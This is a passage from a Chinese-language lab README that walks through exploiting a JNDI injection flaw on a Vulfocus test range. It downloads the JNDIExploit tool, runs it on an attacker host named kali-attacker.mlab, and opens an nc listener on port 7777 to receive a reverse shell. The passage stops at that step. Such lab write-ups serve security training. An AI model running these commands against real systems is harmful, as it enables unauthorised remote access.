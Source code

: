 成功访问 `web` 页面

![](.assets_img/README/vulfocus_web.png)

## 4. 漏洞利用

### 4.1 JNDI 注入利用工具

```bash
wget https://github.com/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip  # 下载

unzip JNDIExploit.v1.2.zip  # 解压
```

为方便分辨，这里攻击者的 `hostname` 已经配置为 `kali-attacker.mlab`

下面在 `kali-attacker.mlab` 上运行 `JNDIExploit`：

```bash
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i kali-attacker.mlab  # 运行
```

### 4.2 攻击者监听 7777 准备接收 shell

```bash
nc -l -p 7777
```
